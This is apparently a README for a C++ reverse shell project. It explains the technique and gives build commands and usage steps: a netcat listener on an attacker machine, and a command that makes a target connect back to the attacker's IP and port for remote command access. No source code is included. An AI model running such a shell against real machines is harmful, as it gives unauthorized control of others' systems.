 # Reverse Shell in C++

Welcome to the repository for my Reverse Shell project written in C++. This project demonstrates how to create a reverse shell, a powerful tool for network security testing and educational purposes.

## What is a Reverse Shell?

A reverse shell is a type of shell where the target machine connects back to the attacker's machine. This can be useful in scenarios where the target machine is behind a firewall or NAT and cannot accept incoming connections. Instead, it initiates an outgoing connection to the attacker's machine, allowing the attacker to gain control.

## Features

- **Lightweight and Efficient**: The reverse shell is designed to be lightweight and efficient, ensuring minimal resource usage on the target machine.
- **Cross-Platform**: Written in C++, it can be compiled and run on various platforms including Windows, Linux, and macOS.
- **Encrypted Communication**: Ensures that the data transferred between the attacker and the target machine is encrypted.

## How to Build

1. **Clone the Repository**:
   ```bash
   git clone https://github.com/yourusername/reverse-shell-cpp.git
   cd reverse-shell-cpp
Install Dependencies:
Ensure you have a C++ compiler installed (like g++, clang, or MSVC). For example, on Ubuntu, you can install g++ with:

bash

sudo apt-get install g++

Compile the Code:

bash

g++ -o reverse_shell reverse_shell.cpp

For Windows, you might use:

bash

    cl /EHsc reverse_shell.cpp

How to Use

    Start a Listener on the Attacker Machine:
    You can use netcat to start a listener. For example:

    bash

nc -lvp 4444

Run the Reverse Shell on the Target Machine:
Ensure the target machine can reach the attacker's IP and port. Run the compiled reverse_shell executable:

bash

./reverse_shell <attacker_ip> <port>

For example:

bash

    ./reverse_shell 192.168.1.10 4444

    Establish Connection:
    Once the reverse shell is executed on the target machine, it will connect back to the attacker's machine, providing a command line interface to the attacker.

Disclaimer

This tool is intended for educational purposes only. Unauthorized use of this tool is illegal and unethical. Always obtain proper authorization before using it in any environment.
